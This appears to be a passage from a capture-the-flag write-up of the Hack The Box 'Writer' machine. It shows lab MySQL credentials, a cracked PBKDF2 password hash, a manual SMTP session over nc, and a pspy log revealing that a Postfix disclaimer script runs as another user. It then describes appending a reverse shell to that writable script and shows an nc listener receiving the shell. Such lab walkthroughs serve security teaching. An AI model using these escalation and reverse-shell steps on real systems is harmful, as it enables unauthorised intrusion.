 ```
After enumerating multiple files in the box, it was found that there is a username and password in a mysql config file called `/etc/mysql/my.cnf` that points to the `dev` database:


```
database = dev
user = djangouser
password = DjangoSuperPassword
```


One of Kyle’s passwords is located in the databases, albeit it is hashed:

`pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=`. Cracking this hash reveals that Kyle’s password is `marcoantonio`.


### John

The kyle user is part of multiple groups, one of them being the `filter` group which has permissions to edit the `/etc/postfix/disclaimer` file. Furthermore, after enumerating the ports running locally on the target, it was found that port 25 is open and running a Postfix SMTP server.

With pspy[^2] running on a separate kyle SSH instance, the following message was sent on the box:


```
kyle@writer:~$ nc localhost 25
220 writer.htb ESMTP Postfix (Ubuntu)
MAIL FROM:kyle@writer.htb
250 2.1.0 Ok
RCPT TO: john@writer.htb
250 2.1.5 Ok
Data
354 End data with <CR><LF>.<CR><LF>
Thanks for reading this writeup!
.
250 2.0.0 Ok: queued as 9BB6F137
```


Upon sending this message, the following process occurred in the background:


```
2021/08/25 00:12:54 CMD: UID=1001 PID=23607  | /bin/sh /etc/postfix/disclaimer -f kyle@writer.htb -- john@writer.htb
```


Thus, the server is running as the john user (note `UID=1001`), and is executing the `/etc/postfix/disclaimer` file. Seeing as the kyle user had permission to edit this file, achieving a reverse shell as the john user could be obtained via appending a reverse shell to the top of the file and sending a message:


```
┌─[0xd4y@Writeup]─[~/business/hackthebox/medium/linux/writer]
└──╼ $nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.15.80] from (UNKNOWN) [10.10.11.101] 49840
/bin/sh: 0: can't access tty; job control turned off
$ whoami
john